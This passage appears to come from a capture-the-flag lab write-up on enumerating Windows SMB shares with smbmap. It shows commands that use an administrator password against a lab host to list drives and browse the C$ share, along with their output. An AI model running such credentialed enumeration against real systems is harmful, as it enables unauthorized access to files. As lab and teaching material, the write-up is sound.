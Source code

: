 - List all drives with `-L` option

```bash
smbmap -u administrator -p 'smbserver_771' -H 10.2.21.233 -L
```

```bash
[+] Host 10.2.21.233 Local Drives: C:\ D:\
[+] Host 10.2.21.233 Net Drive(s):
	No mapped network drives
```

![smbmap -L](.gitbook/assets/image-20230213230347924.png)

- List directory contents with `-r` option

```bash
smbmap -u administrator -p 'smbserver_771' -H 10.2.21.233 -r 'C$'
```

```bash
[+] IP: 10.2.21.233:445	Name: 10.2.21.233                                       
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	C$                                                	READ, WRITE	
	.\C$\*
	dr--r--r--                0 Sat Sep  5 13:26:00 2020	$Recycle.Bin
	fw--w--w--           398356 Wed Aug 12 10:47:41 2020	bootmgr
	fr--r--r--                1 Wed Aug 12 10:47:40 2020	BOOTNXT
	dr--r--r--                0 Wed Aug 12 10:47:41 2020	Documents and Settings
	fr--r--r--               32 Mon Dec 21 21:27:10 2020	flag.txt
	fr--r--r--       8589934592 Tue Feb 14 03:15:53 2023	pagefile.sys
	dr--r--r--                0 Wed Aug 12 10:49:32 2020	PerfLogs
	dw--w--w--                0 Wed Aug 12 10:49:32 2020	Program Files
	dr--r--r--                0 Sat Sep  5 14:35:45 2020	Program Files (x86)
	dr--r--r--                0 Sat Sep  5 14:35:45 2020	ProgramData
	dr--r--r--                0 Sat Sep  5 09:16:57 2020	System Volume Information
	dw--w--w--                0 Sat Dec 19 11:14:55 2020	Users
	dr--r--r--                0 Tue Feb 14 03:30:25 2023	Windows
```

![smbmap -r 'Drive$'](.gitbook/assets/image-20230213230747219.png)
